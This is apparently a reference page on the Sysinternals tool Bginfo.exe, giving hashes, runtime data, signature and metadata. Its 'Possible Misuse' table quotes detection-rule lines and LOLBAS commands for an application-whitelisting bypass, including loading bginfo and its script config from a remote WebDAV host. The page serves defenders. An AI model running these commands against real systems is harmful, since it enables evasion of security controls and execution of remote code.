


---
title: Bginfo.exe | BGInfo - Wallpaper text configurator
excerpt: What is Bginfo.exe?
---

# Bginfo.exe 

* File Path: `C:\SysinternalsSuite\Bginfo.exe`
* Description: BGInfo - Wallpaper text configurator

## Screenshot

## Hashes

Type | Hash
-- | --
MD5 | `DD10D76C836E8E717032F02EB28E049D`
SHA1 | `35D8C4E86ECF41973D340BCC02B7DAEC4077106B`
SHA256 | `9EDB2C6F17E4AB3B372C7992F2E33CC010F4540D2585BE5482355DDDF280C22E`
SHA384 | `692635B3FEE6FA0D1AB968E9FEBEC735C79E5A1E9F9CE36752FA198C19CF201CF1453819C4F74290475FC93115F2B2DC`
SHA512 | `F2E231A0872B30D7DA79C25014CBA8E4CE4287A5E28CD09C430B33BD14F7CE7CC5ED3AC1BE0AA20D60D8D3E77DE909C4C4DA4124170DABCCAA5F6807D9892816`
SSDEEP | `98304:erLbxjJgaPts4Effl5QSCWzlCz2D4M1DX:e/bxFgAufNqSHB4M1DX`
IMP | `B0F1B716009CE765FA4397078FCFFDF9`
PESHA1 | `20AD042DC61FBE224B7658CD28C6F8A2BCF07DD9`
PE256 | `0F3E8398EC0CB4A68DF5E7327B36D6EA3B4148F4E01EC51E52C365C3BC5C14D7`

## Runtime Data

### Window Title:
BGInfo

### Open Handles:

Path | Type
-- | --
(R-D)   C:\Windows\Fonts\StaticCache.dat | File
(R-D)   C:\Windows\SystemResources\imageres.dll.mun | File
(R-D)   C:\Windows\SysWOW64\en-US\user32.dll.mui | File
(RW-)   C:\Windows | File
(RW-)   C:\Windows\WinSxS\x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.19041.488_none_11b1e5df2ffd8627 | File
(RW-)   C:\Windows\WinSxS\x86_microsoft.windows.gdiplus_6595b64144ccf1df_1.1.19041.508_none_429cdbca8a8ffa94 | File
(RW-)   C:\xCyclopedia | File
\BaseNamedObjects\__ComCatalogCache__ | Section
\BaseNamedObjects\NLS_CodePage_1252_3_2_0_0 | Section
\BaseNamedObjects\NLS_CodePage_437_3_2_0_0 | Section
\Sessions\1\Windows\Theme2036293991 | Section
\Windows\Theme1324212991 | Section

### Loaded Modules:

Path |
-- |
C:\SysinternalsSuite\Bginfo.exe |
C:\Windows\SYSTEM32\ntdll.dll |
C:\Windows\System32\wow64.dll |
C:\Windows\System32\wow64cpu.dll |
C:\Windows\System32\wow64win.dll |

## Signature

* Status: Signature verified.
* Serial: `33000001519E8D8F4071A30E41000000000151`
* Thumbprint: `62009AAABDAE749FD47D19150958329BF6FF4B34`
* Issuer: CN=Microsoft Code Signing PCA 2011, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Corporation, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: BGInfo.exe
* Product Name: BGInfo
* Company Name: Sysinternals - www.sysinternals.com
* File Version: 4.28
* Product Version: 4.28
* Language: English (United States)
* Legal Copyright: Copyright  2000-2019 Mark Russinovich
* Machine Type: 32-bit

## File Scan

* VirusTotal Detections: 1/69
* VirusTotal Link: https://www.virustotal.com/gui/file/9edb2c6f17e4ab3b372c7992f2e33cc010f4540d2585be5482355dddf280c22e/detection/

## Possible Misuse

*The following table contains possible examples of `Bginfo.exe` being misused. While `Bginfo.exe` is **not** inherently malicious, its legitimate functionality can by abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_bginfo.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_bginfo.yml) | `title: Application Whitelisting Bypass via Bginfo` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_bginfo.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_bginfo.yml) | `- https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Bginfo.yml` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_bginfo.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_bginfo.yml) | `- https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_susp_bginfo.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_susp_bginfo.yml) | `Image\|endswith: '\bginfo.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Bginfo.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Bginfo.yml) | `Name: Bginfo.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Bginfo.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Bginfo.yml) | `- Command: bginfo.exe bginfo.bgi /popup /nolicprompt` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Bginfo.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Bginfo.yml) | `Description: Execute VBscript code that is referenced within the bginfo.bgi file.` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Bginfo.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Bginfo.yml) | `- Command: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Bginfo.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Bginfo.yml) | `Description: Execute bginfo.exe from a WebDAV server.` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Bginfo.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Bginfo.yml) | `- Command: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Bginfo.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OtherMSBinaries/Bginfo.yml) | `- Link: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/` | 
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_sysinternals_anomaly.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_sysinternals_anomaly.yar) | $nfp2 = "BGInfo - Wallpaper text configurator" wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)

MIT License. Copyright (c) 2020 Strontic.

